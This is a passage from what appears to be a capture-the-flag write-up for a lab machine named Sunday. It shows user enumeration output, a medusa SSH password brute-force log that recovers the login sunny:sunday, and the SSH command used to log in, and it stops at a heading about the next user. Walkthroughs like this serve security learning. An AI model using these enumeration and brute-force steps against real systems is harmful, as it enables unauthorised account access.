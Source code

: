 ```
root@10.10.10.76: root     Super-User            console      <Oct 14 10:28>..
sys@10.10.10.76: sys             ???                         < .  .  .  . >..
zsa zsa@10.10.10.76: Login       Name               TTY         Idle    When    Where..zsa                   ???..zsa                   ???..
######## Scan completed at Sat Jan 14 22:51:23 2023 #########
16 results.

```

From this list there were only 2 possible users that I could SSH into:
```
sammy
sunny
```

And I tried to SSH Bruteforce into them using medusa tool:
```
ACCOUNT CHECK: [ssh] Host: 10.10.10.76 (1 of 1, 0 complete) User: sunny (1 of 1, 0 complete) Password: turkey (1944 of 14344391 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.76 (1 of 1, 0 complete) User: sunny (1 of 1, 0 complete) Password: snowman (1945 of 14344391 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.76 (1 of 1, 0 complete) User: sunny (1 of 1, 0 complete) Password: sayangku (1946 of 14344391 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.76 (1 of 1, 0 complete) User: sunny (1 of 1, 0 complete) Password: madeline (1947 of 14344391 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.76 (1 of 1, 0 complete) User: sunny (1 of 1, 0 complete) Password: astrid (2377 of 14344391 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.76 (1 of 1, 0 complete) User: sunny (1 of 1, 0 complete) Password: bonjour (2378 of 14344391 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.76 (1 of 1, 0 complete) User: sunny (1 of 1, 0 complete) Password: billybob (2379 of 14344391 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.76 (1 of 1, 0 complete) User: sunny (1 of 1, 0 complete) Password: theman (2380 of 14344391 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.76 (1 of 1, 0 complete) User: sunny (1 of 1, 0 complete) Password: sunday (2381 of 14344391 complete)

ACCOUNT FOUND: [ssh] Host: 10.10.10.76 User: sunny Password: sunday [SUCCESS]

```

I got inside ```sunny``` user with SSH:
```
ssh sunny@10.10.10.76 -p 22022
```

![sunny_shell](images/sunday/sunny_shell.png)

## SSH as Sammy:
